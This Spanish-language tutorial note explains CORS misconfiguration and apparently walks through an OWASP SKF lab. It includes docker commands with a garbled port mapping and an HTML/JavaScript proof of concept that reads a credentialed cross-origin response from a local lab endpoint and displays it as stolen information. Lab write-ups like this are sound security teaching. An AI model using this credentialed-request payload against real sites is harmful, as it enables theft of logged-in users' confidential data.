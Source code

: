 _______________________
El **Intercambio de recursos de origen cruzado** (**CORS**) es un mecanismo que permite que un servidor web **restrinja** el **acceso a recursos** de **diferentes orígenes**, es decir, de diferentes dominios o protocolos. CORS se utiliza para proteger la privacidad y seguridad de los usuarios al evitar que otros sitios web accedan a información confidencial sin permiso.

Supongamos que tenemos una aplicación web en el dominio “**example.com**” que utiliza una API web en el dominio “**api.example.com**” para recuperar datos. Si la aplicación web está correctamente configurada para CORS, solo permitirá solicitudes de origen cruzado desde el dominio “**example.com**” a la API en el dominio “**api.example.com**“. Si se realiza una solicitud desde un dominio diferente, como “**attacker.com**“, la solicitud será bloqueada por el navegador web.

Sin embargo, si la aplicación web no está correctamente configurada para CORS, un atacante podría aprovecharse de esta debilidad para acceder a recursos y datos confidenciales. Por ejemplo, si la aplicación web no valida la autorización del usuario para acceder a los recursos, un atacante podría inyectar código malicioso en una página web para realizar solicitudes a la API de la aplicación en el dominio “**api.example.com**“.

El atacante podría utilizar herramientas automatizadas para probar diferentes valores de encabezados CORS y encontrar una configuración incorrecta que permita la solicitud desde otro dominio. Si el atacante tiene éxito, podría acceder a recursos y datos confidenciales que no deberían estar disponibles desde su sitio web. Por ejemplo, podría recuperar la información de inicio de sesión de los usuarios, modificar los datos de la aplicación, etc.
_____________________________________

```bash
docker pull blabla1337/owasp-skf-lab:cors
docker run -ti -p 127.0.0.1:50005000 blabla1337/owasp-skf-lab:cors
```

```JS
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('GET', 'http://localhost:5000/confidential', true);
  req.withCredentials = true;
  req.send();

  function reqListener(){
    document.getElementById("stoleInfo").innerHTML = req.responseText;
  }
</script>

<br>
<center><h1>Hacked</h1></center>

<p id="stoleInfo"></p>
```

Este script en _**HTML**_ y _**JS**_ permite clonar una web, ojo para robar datos confidenciales es necesario que este autenticado en la web.
